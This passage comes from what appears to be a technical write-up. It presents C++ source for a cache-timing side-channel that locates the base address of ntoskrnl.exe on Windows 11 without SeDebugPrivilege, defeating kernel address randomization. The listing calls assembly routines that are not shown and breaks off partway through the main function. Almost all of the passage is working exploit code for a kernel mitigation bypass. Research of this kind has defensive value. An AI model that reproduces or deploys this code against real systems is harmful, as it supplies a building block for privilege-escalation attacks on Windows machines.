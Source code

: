 As we can see, we obtain the correct address of `ntoskrnl.exe` on an up-to-date version of Windows 11 without `SeDebugPrivilege`.

Below is the complete code.
```cpp
#include <stdio.h>
#include <windows.h>

#define lowKernelBase  0xfffff80000000000
#define highKernelBase 0xfffff80800000000

#define KernelAddrJump 0x100000

#define Range 0x8000

extern "C" unsigned int sideChannel(void* baseAddress);
extern "C" void badSyscall(void);

UINT64 getNtBase() {
	static UINT64 Speed[Range] = { 0 };
	static UINT64 Addrs[Range] = { 0 };

	UINT64 Addr = lowKernelBase;
	unsigned int media = 0;
	UINT64 FinalAddress = 0;
	UINT64 FinalTime = 0;
	unsigned int CacheSpeed = 0;

	for (unsigned int Times = 0; Times < 0x100 + 5; Times++) {

		for (UINT64 index = 0; index < Range; index++) {

			if (!Addrs[index]) {
				Addrs[index] = 0xfffff80000000000 + index * 0x100000;
			}

			CacheSpeed = sideChannel((void*)Addrs[index]);

			if (Times >= 5) {
				Speed[index] += CacheSpeed;
			}
		}
	}

	unsigned int i = 0;
	for (i = 0; i < Range; i++) {
		Speed[i] /= 0x100;
	}

	int maxCount = 0;
	int averageSpeed = 0;
	for (i = 0; i < Range; i++) {

		int count = 0;
		for (unsigned int c = 0; c < Range; c++) {
			if (Speed[i] == Speed[c]) {
				count++;
			}
		}

		if (count > maxCount) {
			maxCount = count;
			averageSpeed = Speed[i];
		}
```